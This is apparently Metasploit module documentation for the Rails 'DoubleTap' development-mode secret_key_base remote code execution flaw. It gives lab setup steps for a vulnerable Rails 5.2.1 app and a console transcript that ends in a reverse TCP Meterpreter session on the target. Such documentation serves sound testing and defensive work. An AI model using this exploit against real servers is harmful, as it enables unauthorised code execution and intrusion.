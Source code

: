 # Ruby on Rails DoubleTap Development Mode secret_key_base Vulnerability

## Background

Ruby on Rails is a server-side web application framework written in Ruby. It is a model-view-controller (MVC) architecture, providing default structures for a database, a web service, and web pages. It is also a popular choice of framework among well known services and products such as Github, Bloomberg, Soudcloud, Groupon, Twitch.tv, and of course, Rapid7s Metasploit.

In development mode, Ruby on Rails versions including 5.2.2 and prior are vulnerable to a remote code execution vulnerability due to a predictable secret_key_base based on the name of the Rails application, and use it to create a signed serialized payload, and gain remote code execution.

## Vulnerable Setup

In order to set up a vulnerable box for testing, do this on a Linux machine (such as Ubuntu), and assuming you already have rvm installed:

```
$ rvm gemset create test
$ rvm gemset use test
$ gem install rails '5.2.1'
$ rails new demo
```

Next, `cd` to demo, and then modify the Gemfile like this:

```
$ echo "gem 'rails', '5.2.1'" >> Gemfile
$ echo "gem 'sqlite3', '~> 1.3.6', '< 1.4'" >> Gemfile
$ echo "source 'https://rubygems.org'" >> Gemfile
$ bundle
```

Next, add a new controller:

```
rails generate controller metasploit
```

And add the index method for that controller (under app/controllers/metasploit_controllers.rb):

```
class MetasploitController < ApplicationController
  def index
    render file: "#{Rails.root}/test.html"
  end
end
```

In the root directory, add a new test.html:

```
echo Hello World > test.html
```

Also, add that new route in config/routes.rb:

```
Rails.application.routes.draw do
  resources :metasploit
end
```

And finally, start the application (since no mode is specified, by default, it is development mode):

```
rails s -b 0.0.0.0
```

## Demonstration

### Server

```
$ rails server -b 0.0.0.0 
=> Booting Puma
=> Rails 5.2.1 application starting in development 
=> Run `rails server -h` for more startup options
Puma starting in single mode...
* Version 3.12.1 (ruby 2.6.0-p0), codename: Llamas in Pajamas
* Min threads: 5, max threads: 5
* Environment: development
* Listening on tcp://0.0.0.0:3000
Use Ctrl-C to stop
```

### Metasploit

```
msf5 exploit(multi/http/rails_double_tap) > check
[+] 172.16.249.141:3000 - The target is vulnerable.
msf5 exploit(multi/http/rails_double_tap) > exploit

[*] Started reverse TCP handler on 172.16.249.1:4444 
[*] Attempting to retrieve the application name...
[*] The application name is: Demo
[*] Stager ready: 433 bytes
[*] Sending serialized payload to target (1250 bytes)
[*] Sending stage (985320 bytes) to 172.16.249.141
[*] Meterpreter session 1 opened (172.16.249.1:4444 -> 172.16.249.141:62572) at 2019-04-25 16:29:43 -0500
[+] Deleted /tmp/LsvSGK.bin
[+] Deleted /tmp/tSJfp.bin

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > pwd
/home/sinn3r/demo
meterpreter >
```

